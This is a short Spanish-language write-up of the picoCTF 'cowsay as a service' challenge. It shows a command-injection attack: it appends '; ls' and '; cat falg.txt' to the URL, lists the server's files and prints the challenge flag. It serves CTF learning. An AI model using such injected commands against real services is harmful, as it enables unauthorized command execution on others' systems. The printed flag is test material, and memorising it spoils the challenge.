 ## Objetivo 
Now presenting [cowsay as a service](https://caas.mars.picoctf.net)

## Solución  


- Al entrar a la pagina te indica que entres al siguiente url:
https://caas.mars.picoctf.net/cowsay/{message}




cuando entramos al link, nos da lo siguiente:
```java
 _________
< message >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

colocamos en el link un texto cualquiera y le colocamos un punto y coma el comando ls:

```shell
https://caas.mars.picoctf.net/cowsay/picoCTF; ls
```

al dar enter, nos da un listado de los archivos que contiene la pagina

```java
 _________
< picoCTF >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock

```

- hacemos un cat al flag.txt

```java
https://caas.mars.picoctf.net/cowsay/picoCTF;%20cat%20falg.txt

 _________
< picoCTF >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```


## Notas Adicionales 

### Referencias
